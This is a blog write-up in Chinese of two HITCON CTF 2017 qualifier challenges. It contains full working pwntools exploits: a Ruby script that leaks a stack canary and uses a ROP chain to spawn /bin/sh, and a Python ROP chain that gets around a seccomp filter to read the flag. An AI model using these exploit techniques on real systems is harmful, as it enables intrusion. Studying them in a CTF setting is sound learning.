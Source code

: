 ```yaml
---
layout: post
title:  "HITCON CTF 2017 Quals Writeup"
date:   2017-12-15 14:07:10 +0800
img: how-to-start.jpg
tags: [Writeup]
---
```



## start
這一題被迫要用 Ruby 來寫...
還好之前有摸過一點

會拿到兩個檔案
一個是 server.rb
另一個是 start
start 只有開在 localhost
server.rb 會架在 port 31337
傳 ruby 指令過去
他會幫你執行

因為 start 是 static link
可以找到 syscall 的 ROPgadget


![](https://imgur.com/J8y4ORD.png)

![](https://imgur.com/P97oHN3.png)

canary 的部分只要把 buf 和 canary 之間塞滿
就能在 puts(buf) 的時候順便把 canary print 出來
有 canary 之後就可以直接用 rop 執行 /bin/sh
然後 cat flag

exploit
{% highlight ruby lineos %}
#!/usr/bin/env ruby
# encoding: ascii-8bit
require 'pwn'        # https://github.com/peter50216/pwntools-ruby

code = 'context.arch = "amd64"
z = Sock.new "127.0.0.1", 31338

z.send "A" * 0x19
z.recv(0x19)
canary = "\x00" + z.recv(7)
canary = u64(canary)
z.recv(8)

read = 0x440300
pop_rdi = 0x00000000004005d5
pop_rsi = 0x00000000004017f7
pop_rdx = 0x0000000000443776
stack = 0x006cb000 + 0x100
pop_rax_rdx_rbx = 0x000000000047a6e6
main = 0x400aee
call_put = 0x400b8e
leave = 0x0000000000400baf
syscall = 0x0000000000468e75

buf = "A" * 0x18
buf += flat([canary, stack, pop_rdi, 0, pop_rsi, stack, pop_rdx, 0x100, read, leave])
z.send buf 
z.send "exit\n"
buf = flat([0xdead, pop_rdi, stack + (12 * 8), pop_rsi, 0,
            pop_rdx, 0, pop_rax_rdx_rbx, 59, 0, 0, syscall, "/bin/sh\x00"])
print buf.length.to_s(16)
z.send buf
sleep(0.5)
z.send "cat /home/start/flag\n"
print z.recv
print z.recv
'


z = Sock.new "54.65.72.116", 31337
z.send code

z.interact
{% endhighlight %}

## artifact

![](https://imgur.com/3FHfk34.png)

![](https://imgur.com/cKdUKP9.png)

會看到保護幾乎都開啟了...
可是直接讓我們可以讀寫任一記憶體位址
所以可以利用 rop 呼叫 /bin/sh
但是當 rop 寫好開始執行後會發現
會有一個 SIGSYS 的錯誤
因為在程式一開頭呼叫了 prctl 函數
限制只有某些 syscall 可以執行


![](https://i.imgur.com/wUMI4WK.png)


第 12 行的地方
根據 prctl.h 得知 38 代表 PR_SET_NO_NEW_PRIVS
因為第二個參數是 2 所以 no_new_privs bit = 1


![](https://i.imgur.com/pzg0rkY.png)


第 13 行的地方
22 代表 PR_SET_SECCOMP
第二個參數是 2 所以是使用 SECCOMP_MODE_FILTER
由第三個參數設定過濾方式
第三個參數指向 sock_fprog 這個結構
這個結構又會指向 bpf 這段過濾用的程式碼


![](https://i.imgur.com/IjTrIJw.png)

{% highlight c lineos %}
struct sock_filter {	/* Filter block */
	__u16	code;   /* Actual filter code */
	__u8	jt;	/* Jump true */
	__u8	jf;	/* Jump false */
	__u32	k;      /* Generic multiuse field */
};

struct sock_fprog {			/* Required for SO_ATTACH_FILTER. */
	unsigned short		   len;	/* Number of filter blocks */
	struct sock_filter __user *filter;
};
{% endhighlight %}

利用 bpfdbg 反組譯 bpf 指令

{% highlight c %}
> load bpf 20,32 0 0 4, 21 0 16 -1073741762,32 0 0 32, 7 0 0 0,
32 0 0 0, 21 13 0 0,21 12 0 1, 21 11 0 5,21 10 0 8, 21 1 0 9,
21 0 3 10, 135 0 0 0,84 0 0 1, 21 4 5 1,29 4 0 11, 21 3 0 12,
21 2 0 60, 21 1 0 231,6 0 0 0, 6 0 0 2147418112
> disassemble
l0:	ld [4]                   /*arch*/
l1:	jeq {0xc000003e, l2, l18
l2:	ld [32]                  /*args[2]*/
l3:	tax 
l4:	ld [0]                   /*nr*/ 
l5:	jeq #0, l19, l6          /*sys_read*/
l6:	jeq #0x1, l19, l7        /*sys_write*/
l7:	jeq #0x5, l19, l8        /*sys_fstat*/
l8:	jeq #0x8, l19, l9        /*sys_lseek*/
l9:	jeq #0x9, l11, l10       /*sys_mmap check*/
l10:	jeq #0xa, l11, l14   	  /*sys_mprotect check*/
l11:	txa 	  
l12:	and #0x1	  
l13:	jeq #0x1, l18, l19   	  /*can't read*/
l14:	jeq x, l19, l15      	  /*syscall == args[2]*/
l15:	jeq #0xc, l19, l16   	  /*sys_brk*/
l16:	jeq #0x3c, l19, l17  	  /*sys_exit*/
l17:	jeq #0xe7, l19, l18  	  /*sys_exit_group*/
l18:	ret #0               	  /*KILL*/
l19:	ret #0x7fff0000      	  /*ALLOW*/
{% endhighlight %}

ld [x] 會讀取下面這個結構的值
{% highlight C lineos %}
struct seccomp_data {
	int nr;
	__u32 arch;
	__u64 instruction_pointer;
	__u64 args[6];
};
{% endhighlight %}
所以只要讓 syscall == 第三個參數的值就能使用了

exploit
{% highlight python lineos %}
from pwn import *
import time
import sys


def rop(ary):
    pos = 203
    for i in ary:
        proc.sendline('2')
        proc.sendline(str(pos))
        proc.sendline(str(i))
        pos += 1


def exploit(proc):
    prctl_offset = 0x1095b0
    raw_input("@")
    proc.sendline('1')
    proc.sendline('203')
    proc.recvuntil('Here it is: ')
    libc_base = int(proc.recvline())
    libc_base = libc_base - 0x203f1
    print('libc base: ' + hex(libc_base))

    pop_rdi = libc_base + 0x000000000001fd7a
    pop_rsi = libc_base + 0x000000000001fcbd
    pop_rdx = libc_base + 0x0000000000001b92
    pop_rax = libc_base + 0x000000000003a998
    pop_rcx = libc_base + 0x00000000001a97b8
    syscall = libc_base + 0x00000000000bc765
    read_adr = libc_base + 0x0000000000f8880
    open_adr = libc_base + 0x0000000000f8660
    printf_adr = libc_base + 0x0000000056510
    mov_rdi_rax_call_rcx = libc_base + 0x0000000000089ae9
    # pop_rcx, pop_rcx

    # f = open('flag', 0, 2)
    # read_len = read(f, &buf, len)
    # write(1, &buf, read_len)

    proc.sendline('1')
    proc.sendline('205')
    proc.recvuntil('Here it is: ')
    rbp = int(proc.recvline())
    print('rbp: ' + hex(rbp))

    raw_input("@")

    data_len = 0x100
    file_path = rbp + 0x100
    rop([pop_rdi, 0, pop_rsi, file_path, pop_rdx, 0x100, read_adr,
        pop_rdi, file_path, pop_rsi, 0, pop_rdx, 2, open_adr,
        pop_rcx, pop_rcx, mov_rdi_rax_call_rcx,
        pop_rsi, file_path + 0x20, pop_rdx, data_len, read_adr,
        pop_rdi, 1, pop_rsi, file_path + 0x20, pop_rdx, data_len,
        pop_rax, 1, syscall])
    proc.sendline('3')
    raw_input('@')
    proc.send("flag")


if __name__ == '__main__':
    context.arch = 'amd64'
    connect = 'nc 52.192.178.153 31337'
    connect = connect.split(' ')
    if len(sys.argv) > 1:
        proc = remote(connect[1], int(connect[2]))
    else:
        proc = process(['./artifact'], env={'LD_LIBRARY_PATH': './'})
        gdb.attach(proc, '''
        set follow-fork-mode child
        b *main+0xba0
        continue
        ''')
    exploit(proc)
    proc.interactive()

{% endhighlight %}
